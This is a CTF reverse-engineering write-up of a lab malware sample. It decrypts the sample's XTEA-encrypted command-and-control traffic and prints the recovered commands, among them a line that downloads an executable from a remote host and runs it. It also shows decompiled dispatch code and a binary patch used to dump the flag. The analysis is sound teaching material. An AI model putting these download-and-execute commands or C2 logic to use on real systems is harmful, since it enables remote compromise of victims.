

After a simple feature analysis, we can determine this is a custom implemented XTEA decryption function. `qword_1400086F0` is its Key.

Next, let's analyze the remaining part:

```c
  v13 = 0;
  v14 = -1i64;
  do
    ++v14;
  while ( v10[v14] );
  if ( (int)v14 <= 0 )
    goto LABEL_82;
  v15 = (unsigned int)v14;
  do
  {
    v16 = *v10++;
    v13 = v16 + __ROR4__(v13, 13);
    --v15;
  }
  while ( v15 );
```

This part calculates `v13` based on the first element after splitting.

The subsequent `switch ( v13 )` then switches conditions based on `v13`.

Now that we understand this, we need to know where the global variable for the XTEA Key comes from. Through cross-references, we find the following:

```c
    case 0xD49A66B:
      qword_1400086F0 = (__int64)v11;
      return;
```

Clearly, the XTEA Key is assigned based on the command branch corresponding to `0xD49A66B`. Therefore, we need to find the corresponding packet in the pcapng.

By finding the first payload, we see:

```
REtFWUVYQ0h8RU5DUllQVFRSQUZGSUswNw==
```

Decoding it gives:

```
DKEYEXCH|ENCRYPTTRAFFIK07
```

After splitting, we know the Key is `ENCRYPTTRAFFIK07`.

Therefore, we implement a C function for encryption/decryption, slightly modifying the decompiled result:

```c
char XTEA_KEY[16] = "ENCRYPTTRAFFIK07";

char *decrypt_XTEA_data(char *data, unsigned int size)
{
    int v4;           // ecx
    int v5;           // eax
    int v6;           // ecx
    int v7;           // eax
    char *v8;         // r15
    uint8_t *v9;      // rcx
    int64_t v10;      // rsi
    uint32_t *v11;    // rdi
    unsigned int v12; // ebx
    uint64_t v13;     // r9
    int64_t v14;      // r14
    unsigned int v15; // r10d
    unsigned int v16; // r11d
    unsigned int v17; // eax
    unsigned int v18; // ebx
    unsigned int v19; // r11d
    unsigned int v20; // r10d
    int v21;          // edx
    unsigned int v22; // r11d
    unsigned int v23; // r10d
    int v24;          // edx
    unsigned int v25; // r11d
    unsigned int v26; // r10d
    unsigned int v27; // eax
    unsigned int v28; // r11d
    unsigned int v29; // r10d
    int v30;          // edx
    unsigned int v31; // r11d
    unsigned int v32; // r10d
    int v33;          // edx
    unsigned int v34; // r11d
    unsigned int v35; // r10d
    unsigned int v36; // eax
    unsigned int v37; // r11d
    unsigned int v38; // r10d
    int v39;          // edx
    unsigned int v40; // r11d
    unsigned int v41; // r10d
    int v42;          // edx
    unsigned int v43; // r11d
    unsigned int v44; // r10d
    unsigned int v45; // eax
    unsigned int v46; // r11d
    unsigned int v47; // r10d
    int v48;          // edx
    unsigned int v49; // r11d
    unsigned int v50; // r10d
    int v51;          // edx
    unsigned int v52; // r11d
    unsigned int v53; // r10d
    unsigned int v54; // r11d
    unsigned int v55; // r10d
    int v56;          // edx
    unsigned int v57; // r11d
    unsigned int v58; // r10d
    int v59;          // edx
    unsigned int v60; // r11d
    unsigned int v61; // r10d
    int v63[4];       // [rsp+20h] [rbp-10h]

    v4 = *(char *)(XTEA_KEY + 5) | (*(char *)(XTEA_KEY + 4) << 8);
    v63[0] = *(char *)(XTEA_KEY + 3) | ((*(char *)(XTEA_KEY + 2) | ((*(char *)(XTEA_KEY + 1) | (*(char *)XTEA_KEY << 8)) << 8)) << 8);
    v5 = *(char *)(XTEA_KEY + 9);
    v63[1] = *(char *)(XTEA_KEY + 7) | ((*(char *)(XTEA_KEY + 6) | (v4 << 8)) << 8);
    v6 = *(char *)(XTEA_KEY + 11) | ((*(char *)(XTEA_KEY + 10) | ((v5 | (*(char *)(XTEA_KEY + 8) << 8)) << 8)) << 8);
    v7 = *(char *)(XTEA_KEY + 13);
    v63[2] = v6;
    v63[3] = *(char *)(XTEA_KEY + 15) | ((*(char *)(XTEA_KEY + 14) | ((v7 | (*(char *)(XTEA_KEY + 12) << 8)) << 8)) << 8);
    v8 = (char *)malloc(size);
    memset(v8, 0, size);
    if (size)
    {
        v9 = (uint8_t *)data + 2;
        v10 = ((size - 1) >> 3) + 1;
        v11 = (uint32_t *)v8;
        do
        {
            v12 = 0xC6EF3720;
            v13 = 0xC6EF3720;
            v14 = 2;
            v15 = v9[1] | ((*v9 | ((*(v9 - 1) | (*(v9 - 2) << 8)) << 8)) << 8);
            v16 = v9[5] | ((v9[4] | ((v9[3] | (v9[2] << 8)) << 8)) << 8);
            do
            {
                v17 = v12 + v63[(v13 >> 11) & 3];
                v18 = v12 + 0x61C88647;
                v19 = v16 - (v17 ^ (v15 + ((16 * v15) ^ (v15 >> 5))));
                v20 = v15 - ((v18 + v63[v18 & 3]) ^ (v19 + ((16 * v19) ^ (v19 >> 5))));
                v21 = (v18 + v63[(v18 >> 11) & 3]) ^ (v20 + ((16 * v20) ^ (v20 >> 5)));
                v18 += 0x61C88647;
                v22 = v19 - v21;
                v23 = v20 - ((v18 + v63[v18 & 3]) ^ (v22 + ((16 * v22) ^ (v22 >> 5))));
                v24 = (v18 + v63[(v18 >> 11) & 3]) ^ (v23 + ((16 * v23) ^ (v23 >> 5)));
                v18 += 0x61C88647;
                v25 = v22 - v24;
                v26 = v23 - ((v18 + v63[v18 & 3]) ^ (v25 + ((16 * v25) ^ (v25 >> 5))));
                v27 = v18 + v63[(v18 >> 11) & 3];
                v18 += 0x61C88647;
                v28 = v25 - (v27 ^ (v26 + ((16 * v26) ^ (v26 >> 5))));
                v29 = v26 - ((v18 + v63[v18 & 3]) ^ (v28 + ((16 * v28) ^ (v28 >> 5))));
                v30 = (v18 + v63[(v18 >> 11) & 3]) ^ (v29 + ((16 * v29) ^ (v29 >> 5)));
                v18 += 0x61C88647;
                v31 = v28 - v30;
                v32 = v29 - ((v18 + v63[v18 & 3]) ^ (v31 + ((16 * v31) ^ (v31 >> 5))));
                v33 = (v18 + v63[(v18 >> 11) & 3]) ^ (v32 + ((16 * v32) ^ (v32 >> 5)));
                v18 += 0x61C88647;
                v34 = v31 - v33;
                v35 = v32 - ((v18 + v63[v18 & 3]) ^ (v34 + ((16 * v34) ^ (v34 >> 5))));
                v36 = v18 + v63[(v18 >> 11) & 3];
                v18 += 0x61C88647;
                v37 = v34 - (v36 ^ (v35 + ((16 * v35) ^ (v35 >> 5))));
                v38 = v35 - ((v18 + v63[v18 & 3]) ^ (v37 + ((16 * v37) ^ (v37 >> 5))));
                v39 = (v18 + v63[(v18 >> 11) & 3]) ^ (v38 + ((16 * v38) ^ (v38 >> 5)));
                v18 += 0x61C88647;
                v40 = v37 - v39;
                v41 = v38 - ((v18 + v63[v18 & 3]) ^ (v40 + ((16 * v40) ^ (v40 >> 5))));
                v42 = (v18 + v63[(v18 >> 11) & 3]) ^ (v41 + ((16 * v41) ^ (v41 >> 5)));
                v18 += 0x61C88647;
                v43 = v40 - v42;
                v44 = v41 - ((v18 + v63[v18 & 3]) ^ (v43 + ((16 * v43) ^ (v43 >> 5))));
                v45 = v18 + v63[(v18 >> 11) & 3];
                v18 += 0x61C88647;
                v46 = v43 - (v45 ^ (v44 + ((16 * v44) ^ (v44 >> 5))));
                v47 = v44 - ((v18 + v63[v18 & 3]) ^ (v46 + ((16 * v46) ^ (v46 >> 5))));
                v48 = (v18 + v63[(v18 >> 11) & 3]) ^ (v47 + ((16 * v47) ^ (v47 >> 5)));
                v18 += 0x61C88647;
                v49 = v46 - v48;
                v50 = v47 - ((v18 + v63[v18 & 3]) ^ (v49 + ((16 * v49) ^ (v49 >> 5))));
                v51 = (v18 + v63[(v18 >> 11) & 3]) ^ (v50 + ((16 * v50) ^ (v50 >> 5)));
                v18 += 0x61C88647;
                v52 = v49 - v51;
                v53 = v50 - ((v18 + v63[v18 & 3]) ^ (v52 + ((16 * v52) ^ (v52 >> 5))));
                v54 = v52 - ((v18 + v63[(v18 >> 11) & 3]) ^ (v53 + ((16 * v53) ^ (v53 >> 5))));
                v18 += 0x61C88647;
                v55 = v53 - ((v18 + v63[v18 & 3]) ^ (v54 + ((16 * v54) ^ (v54 >> 5))));
                v56 = (v18 + v63[(v18 >> 11) & 3]) ^ (v55 + ((16 * v55) ^ (v55 >> 5)));
                v18 += 0x61C88647;
                v57 = v54 - v56;
                v58 = v55 - ((v18 + v63[v18 & 3]) ^ (v57 + ((16 * v57) ^ (v57 >> 5))));
                v59 = (v18 + v63[(v18 >> 11) & 3]) ^ (v58 + ((16 * v58) ^ (v58 >> 5)));
                v18 += 0x61C88647;
                v60 = v57 - v59;
                v61 = v58 - ((v18 + v63[v18 & 3]) ^ (v60 + ((16 * v60) ^ (v60 >> 5))));
                v16 = v60 - ((v18 + v63[(v18 >> 11) & 3]) ^ (v61 + ((16 * v61) ^ (v61 >> 5))));
                v12 = v18 + 0x61C88647;
                v13 = v12;
                v15 = v61 - ((v12 + v63[v12 & 3]) ^ (v16 + ((16 * v16) ^ (v16 >> 5))));
                --v14;
            } while (v14);
            *v11 = _byteswap_ulong(v15);
            v9 += 8;
            v11[1] = _byteswap_ulong(v16);
            v11 += 2;
            --v10;
        } while (v10);
    }
    return v8;
}

```

Then, by calling this function at the appropriate time, we can decrypt the following effective commands in order:

```
CMDSHEL|C:\windows\system32\cmd.exe
EXECCMD|cd %temp%
EXITSHEL
DOWNEXEC|http://192.168.138.67:8080/data.png|DEKRYPT|0
DOWNEXEC|http://192.168.138.67:8080/data.txt|DEKRYPT|1
```

Simultaneously, we can find HTTP requests and subsequent TCP stream transmissions. Merging the chunks, we get `data.png` and `data.txt`.

Among them, through the `MZ` header, we can clearly tell that `data.txt` is actually a PE file.

(Details about other branches are omitted in this writeup for brevity, but I did analyze them.)

Meanwhile, let's write a function to convert command names to their corresponding DWORDs:

```python
def rol(value, count, bits=32):
    """
    Simulates the __ROL__ (Rotate Left) function for a given number of bits.

    Args:
        value: The integer value to rotate.
        count: The number of bits to rotate left (positive).
               To rotate right, use a negative count.
        bits: The number of bits in the value (default 32, like uint32).

    Returns:
        The left-rotated integer value.
    """
    count %= bits  # Normalize count
    if count > 0:
        high = value >> (bits - count)
        # In Python, we don't need the signed check and masking for rotation
        # because Python integers handle bitwise operations appropriately for rotation.
        value <<= count
        value |= high
    else: # Handle right rotation within rol for convenience
        count = -count % bits # Effective right rotation count
        low = value << (bits - count)
        value >>= count
        value |= low
    return value & ((1 << bits) - 1)  # Ensure result is within 'bits' range (mask)

def ror4(value, count):
    """
    Simulates __ROR4__ (Rotate Right 4 bytes / 32 bits) using rol.

    Args:
        value: The 32-bit unsigned integer value to rotate right.
        count: The number of bits to rotate right (positive).

    Returns:
        The right-rotated 32-bit unsigned integer value.
    """
    return rol(value, -count, bits=32) # Right rotate is left rotate with negative count

def get_cmd_from_name(name):
    cmd = 0
    str_len = len(name)
    cmd_code = []
    for i in range(str_len):
        cmd_code.append(ord(name[i]))
    for i in range(str_len):
        code = cmd_code[i]
        cmd = code + ror4(cmd, 0xD)
    return cmd

```

Then we can get the corresponding branches.

Among these, let's focus on the `DOWNEXEC` branch:

```c
    case 0xD68FEEF:
      v22 = strtok_s(0i64, Delimiter, &Context);
      v23 = strtok_s(0i64, Delimiter, &Context);
      v24 = StrToIntA(v23);
      v25 = (const WCHAR *)sub_140001920(v11);
      v26 = sub_140001920(v22);
      sub_140002890(v25, v26, v24);
```

Let's follow `sub_140001920`:

```c
void *__fastcall sub_140001920(char *SrcBuf)
{
  __int64 v1; // rax
  __int64 v3; // rcx
  bool v4; // zf
  __int64 v5; // rcx
  size_t MaxCount; // rbx
  void *v7; // rsi
  size_t PtNumOfCharConverted; // [rsp+30h] [rbp-18h] BYREF

  v1 = -1i64;
  v3 = -1i64;
  do
    v4 = SrcBuf[++v3] == 0;
  while ( !v4 );
  if ( SrcBuf[v3 - 1] == 10 )
  {
    v5 = -1i64;
    do
      v4 = SrcBuf[++v5] == 0;
    while ( !v4 );
    SrcBuf[v5 - 1] = 0;
  }
  do
    v4 = SrcBuf[++v1] == 0;
  while ( !v4 );
  MaxCount = 2 * v1;
  v7 = malloc(2 * v1 + 2);
  memset(v7, 0, MaxCount + 2);
  PtNumOfCharConverted = 0i64;
  mbstowcs_s(&PtNumOfCharConverted, (wchar_t *)v7, MaxCount + 2, SrcBuf, MaxCount);
  return v7;
}
```

We can see this is actually a `to_wchar` function.

Therefore, this part's content is: take the first parameter after the command name as `v25`, the second as `v26`, convert the third to an `int` as `v24`.

Then call `sub_140002890` with these as parameters.

Let's look at its function signature:

```c
int __fastcall sub_140002890(LPCWSTR lpszUrl, _WORD *Src, int a3)
```

We only need to focus on what the second and third parameters do. Using cross-references to locate:

```c
memcpy(&v27[2 * v6 + 2], Src, v31);
CreateProcessW(
    0i64,
    (LPWSTR)v27,
    0i64,
    0i64,
    0,
    0,
    0i64,
    Buffer,
    &StartupInfo,
    &ProcessInformation);
```

We locate it being passed as the second argument to `CreateProcessW`, which is `LPWSTR lpCommandLine`. Therefore, `Src` is actually `argv[1]` for `data.exe`.

Next, let's locate `a3`:

```c
 if ( a3 )
 {
   StartupInfo.cb = 104;
   v24 = -1i64;
   memset(&StartupInfo.cb + 1, 0, 100);
   memset(&ProcessInformation, 0, sizeof(ProcessInformation));
   do
     ++v24;
   while ( Src[v24] );
   v25 = -1i64;
   do
     ++v25;
   while ( TempFileName[v25] );
   v26 = (unsigned int)(2 * (v25 + v24) + 4);
   v27 = (char *)malloc(v26);
   memset(v27, 0, (unsigned int)v26);
   v28 = -1i64;
   do
     ++v28;
   while ( TempFileName[v28] );
   memcpy(v27, TempFileName, 2 * v28);
   v29 = -1i64;
   do
     v8 = TempFileName[++v29] == 0;
   while ( !v8 );
   v30 = -1i64;
   *(_WORD *)&v27[2 * v29] = 32;
   do
     ++v30;
   while ( Src[v30] );
   v31 = 2 * v30;
   do
     v8 = TempFileName[++v6] == 0;
   while ( !v8 );
   memcpy(&v27[2 * v6 + 2], Src, v31);
   CreateProcessW(
     0i64,
     (LPWSTR)v27,
     0i64,
     0i64,
     0,
     0,
     0i64,
     Buffer,
     &StartupInfo,
     &ProcessInformation);
 }
```

Based on the above part, we know that `a3` controls whether `CreateProcessW` is called, i.e., whether to execute the downloaded file.

Thus, we have now finished analyzing the first executable and obtained the second executable (`data.txt`, which is `data.exe`) and `data.png`.



Although `data.png` appears encrypted, the decryption method is likely in the second executable.

## Decryption Program Analysis

First, we still use DIE for analysis:


It seems there are no protection measures. We proceed with IDA64 analysis:



Based on the analysis, we can see it's not obfuscated, so we get a relatively clear `main` function.

`argv[1]` is converted to a multi-byte string and passed as a parameter to `sub_140001260`, which should be the main logic function. Let's follow it:





By tracing, we find that `pbData`, after various processing, is actually used as the decryption key, which is `argv[1]`. It also reads `data.png` from `%temp%` as the data to be decrypted. Therefore, `DEKRYPT`, inputted as `argv[1]`, is the key.

Let's look at the following logic:

```c
                  if ( CryptDecrypt(hKey, 0i64, v12, 0, (BYTE *)v10, &v17) )
                  {
                    memcpy(v11, v10, v17);
                    v11 += v17;
                  }
                }
                while ( !v12 );
                v13 = FileSize - *(v11 - 1);
                v14 = malloc(v13);
                memset(v14, 0, v13);
                memcpy(v14, &v11[-v15], v13);
                sub_1400010E0((BYTE *)v14, v13);
```

According to the `CryptDecrypt` function prototype, we know that `v10` is the buffer for the decrypted data, which is also moved to `v14`, with `v13` as the length.

Then, these two parameters are used to call `sub_1400010E0`. Let's follow it:

```c
BOOL __fastcall sub_1400010E0(BYTE *pbData, DWORD dwDataLen)
{
  BOOL result; // eax
  void *v5; // rbx
  DWORD pdwDataLen; // [rsp+30h] [rbp-40h] BYREF
  HCRYPTHASH phHash; // [rsp+38h] [rbp-38h] BYREF
  HCRYPTPROV phProv; // [rsp+40h] [rbp-30h] BYREF
  int Buf2[8]; // [rsp+48h] [rbp-28h] BYREF

  phProv = 0i64;
  result = CryptAcquireContextW(&phProv, 0i64, 0i64, 0x18u, 0xF0000000);
  if ( result )
  {
    phHash = 0i64;
    if ( CryptCreateHash(phProv, 0x800Cu, 0i64, 0, &phHash) && CryptHashData(phHash, pbData, dwDataLen, 0) )
    {
      pdwDataLen = 0;
      if ( CryptGetHashParam(phHash, 2u, 0i64, &pdwDataLen, 0) )
      {
        v5 = malloc(pdwDataLen);
        memset(v5, 0, pdwDataLen);
        if ( CryptGetHashParam(phHash, 2u, (BYTE *)v5, &pdwDataLen, 0) )
        {
          Buf2[0] = 0x829E7403;
          Buf2[1] = 0xAE136FC8;
          Buf2[2] = 0xD32FE57C;
          Buf2[3] = 0x363D418D;
          Buf2[4] = 0x92DB7146;
          Buf2[5] = 0x70FF29F6;
          Buf2[6] = 0x193D0B86;
          Buf2[7] = 0xF7DF625F;
          if ( !memcmp(v5, Buf2, pdwDataLen) )
            sub_1400015F0(std::cout);
        }
      }
      CryptDestroyHash(phHash);
    }
    return CryptReleaseContext(phProv, 0);
  }
  return result;
}
```

Through analysis, we know this is a hash verification function. If the hash matches the hardcoded data `buf2`, it calls `sub_1400015F0` via `std::cout` to output specific information. This function seems to be used to verify if the decrypted information is correct.

By following `sub_1400015F0`, we find the following information:



Therefore, we can first place `data.png` in the `%temp%` directory and run the program with the key `DEKRYPT` to see if it's correct:

```
>data.exe DEKRYPT
I can decrypt the flag, Its your turn to find it, Good Luck!!
```

This shows it's correct. So how do we get the data? We certainly don't need to reimplement the algorithm, as the decryption program has already done it all for us. We just need to set a breakpoint before passing into `sub_1400010E0` to get the decrypted buffer pointer and data length, and then dump it.

Therefore, we apply the following patch:

Original:
```asm
.text:000000014000157F E8 5C FB FF FF                call    sub_1400010E0
```

Patched:
```asm
.text:000000014000157F CC                            int     3                               ; Trap to Debugger
.text:0000000140001580 90                            nop
.text:0000000140001581 90                            nop
.text:0000000140001582 90                            nop
.text:0000000140001583 90                            nop
```

Then, attach a debugger and pass the arguments:



After that, using x64dbg which I used, use the following command to dump:

```c
savedata "D:\rev-ransomware_unchained\decrypted.png", rcx, rdx
```

View the dumped image:


Get Flag!!!

## Conclusion

This challenge wasn't actually that difficult. Even with an upset stomach, I only spent 4 hours solving it. Under normal conditions, perhaps half the time would suffice. The difficulty lay in consulting documentation, basic Wireshark skills, and patience. Since Capture Point 5353 3.0 only had this one Reverse challenge, this concludes the writeup. It was fun!

> Don't forget to delete `data.png` from `%temp%`!